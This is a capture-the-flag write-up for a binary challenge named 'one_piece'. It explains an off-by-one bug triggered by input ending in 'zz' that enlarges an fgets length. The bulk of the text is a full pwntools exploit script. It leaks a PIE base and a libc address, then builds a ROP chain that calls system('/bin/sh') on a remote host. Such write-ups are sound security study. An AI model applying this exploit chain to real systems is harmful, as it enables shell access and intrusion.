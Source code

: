 
![task2](imgs/4.png)
### Information
We were given a 64bit ELF file.
When we run the binary, the program is showing a menu , ( read run and exit ). The run function is useless, so we can only perform the read operation.

![task2](imgs/5.png)

But when decompiling the binary, we have one more option that is not shown in the menu message, which is "gomugomunomi" that calls mugiwara function.

The **mugiwara** function seems a bit complicated,first it leaks a binary address and initialize an integer variable named  **len** to 40.

Then it's copying each char of the buffer that we've read from the readSC function into another buffer.Finally, it's using fgets to read "len" bytes.

![task2](imgs/7.png)

Inside the loop, it's checking if the char is 'z', if true, it'll execute buffer2[++i] = 0x89. So the idea is to trigger an off-bye-one bug by giving some buffer terminated by "zz". 

Example : buffer = "A"*37 + "zz"
- i = 37 ==> buffer[37] = 'z' , condition true, ==> buffer[++37] = buffer[38] = 0x89 , i++
- i = 39 ==> buffer[39] = 'z', condition true, ==> buffer[++39] = buffer[**40**] = 0x89 i++

the last operation will trigger a bufferoverflow, overwriting the **len** variable  by 0x89 which will be used in the fgets.
                      
![task2](imgs/8.png)

It's simple now, the binary PIE is enabled, but we've got already a binary leak from the mugiwara function.
### Exploitation
- read "A"*37 + "zz"
- call gomugomunomi
- rop chain 1: leak libc address bye calling puts and giving printf GOT address as an argument and returning to the main function.
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/sh and system address
- call gomugomunomi
- rop chain 2: system("/bin/sh")


```python
from pwn import *
from time import sleep
#p = process("./one_piece")
p = remote("100.26.85.87",1238)
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazz"
p.sendline("read")
p.sendline(payload)
p.sendline("gomugomunomi")
p.recvuntil("right ? : ")
leak = int("0x" + p.recvline(),16)
binaire = leak - 0xa3a
puts_plt = binaire + 0x720
printf_plt = binaire + 0x1040
#Gadgets
poprdi = binaire + 0xba3
ret = binaire + 0x000000000000070e

log.info("binary base = "+hex(binaire))
pause()
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binaire+0x201fa0) #puts_got
payload += p64(puts_plt)
payload += p64(binaire+0x7a0) #_start

p.sendline(payload)
p.recvline()

leaklibc = u64(p.recvline().ljust(8,"\x00")) % 0xa000000000000
print "leaklibc = ",hex(leaklibc)
base = leaklibc - libc.symbols['puts']
log.info("libc base = "+hex(base)) 
p.sendline("read")
p.sendline("A"*37 + "zz")
p.sendline("gomugomunomi")
sleep(2)
system = base + libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.info("/bin/sh = "+hex(binsh))
log.info("system = "+hex(system))
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(leak+0x5)
p.sendline(payload)
log.warn("sending payload ...")
p.sendline("cat flag.txt")
p.interactive()
```
